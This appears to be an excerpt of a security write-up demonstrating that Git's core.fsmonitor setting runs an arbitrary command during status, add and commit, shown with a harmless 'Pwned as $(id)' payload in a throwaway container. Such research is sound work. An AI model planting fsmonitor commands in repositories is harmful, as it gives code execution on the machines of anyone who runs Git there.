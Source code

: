 ```plain
% sudo -g docker docker run --rm -ti justinsteven/git bash

root@675cbf87ff0f:/# git --version
git version 2.32.0
```


Create a new Git repo:

```plain
root@675cbf87ff0f:/# cd $(mktemp -d)

root@675cbf87ff0f:/tmp/tmp.hLncfRcxgC# git init
Initialized empty Git repository in /tmp/tmp.hLncfRcxgC/.git/
```

Change `core.fsmonitor` so that it echoes a message to STDERR whenever it is invoked:

```plain
root@675cbf87ff0f:/tmp/tmp.hLncfRcxgC# echo $'\tfsmonitor = "echo \\"Pwned as $(id)\\">&2; false"' >> .git/config

root@675cbf87ff0f:/tmp/tmp.hLncfRcxgC# cat .git/config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
	fsmonitor = "echo \"Pwned as $(id)\">&2; false"
```

Run:

* `git status`
* `git add` on a file that exists
* `git add` on a file that doesn't exist
* `git commit`

to show that our specified command is executed during many Git operations:

```plain
root@675cbf87ff0f:/tmp/tmp.hLncfRcxgC# git status
Pwned as uid=0(root) gid=0(root) groups=0(root)
Pwned as uid=0(root) gid=0(root) groups=0(root)
On branch main

No commits yet

nothing to commit (create/copy files and use "git add" to track)

root@675cbf87ff0f:/tmp/tmp.hLncfRcxgC# touch aaaa

root@675cbf87ff0f:/tmp/tmp.hLncfRcxgC# git add aaaa
Pwned as uid=0(root) gid=0(root) groups=0(root)
Pwned as uid=0(root) gid=0(root) groups=0(root)

root@675cbf87ff0f:/tmp/tmp.hLncfRcxgC# git add zzzz
Pwned as uid=0(root) gid=0(root) groups=0(root)
Pwned as uid=0(root) gid=0(root) groups=0(root)
fatal: pathspec 'zzzz' did not match any files

root@675cbf87ff0f:/tmp/tmp.hLncfRcxgC# git commit -m 'add aaaa'
Pwned as uid=0(root) gid=0(root) groups=0(root)
Pwned as uid=0(root) gid=0(root) groups=0(root)
[main (root-commit) 7c2f2c6] add aaaa
 1 file changed, 0 insertions(+), 0 deletions(-)
 create mode 100644 aaaa
```

